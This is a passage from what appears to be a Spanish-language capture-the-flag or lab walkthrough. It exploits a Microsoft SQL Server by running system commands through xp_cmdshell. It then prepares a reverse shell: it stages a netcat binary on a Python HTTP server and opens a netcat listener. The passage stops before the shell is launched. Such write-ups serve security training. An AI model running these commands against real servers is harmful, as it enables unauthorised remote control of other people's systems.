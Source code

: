 13. Y comprobamos que ya podemos ejecutar comandos de sistema con la CMD:
```SQL
xp_cmdshell "whoami"
```

![](img/whoamiXPCMDShell.png)

14. **Una vez que hemos comprobado que podemos ejecutar comandos en el sistema de forma remota, vamos a establecer una Reverse Shell ejecutando un proceso interactivo `cmd.exe` en la máquina víctima apuntando a nuestro puerto de escucha.**
- 1. Vamos a descargarnos el binario [nc64.exe](https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------), que es NetCat para sistemas Windows, para subirlo a la máquina víctima
- 2. Nos vamos a la carpeta donde hayamos descargado el binario y montamos un servidor HTTP simple por el puerto 80 con Python:
```bash
sudo python3 -m http.server 80
```
- 3. Ahora nos vamos a poner en escucha con NetCat en nuestra máquina atacante por el puerto 443:
```bash
sudo nc -lvnp 443
```
- 4. Ahora, antes de subir el binario de NetCat en la máquina víctima Windows, tenemos que ver una carpeta apropiada para hacerlo. Vamos a usar `powershell -c` para ejecutar comandos con la PowerShell, que es más potente. Vamos a ver dónde estamos con `pwd`. Lo ejecutamos en el Servidor Microsoft SQL con `xp_cmdshell` de la siguiente manera:
```SQL
xp_cmdshell "powershell -c pwd"
```

![](img/powershellPWDSystem32.png)

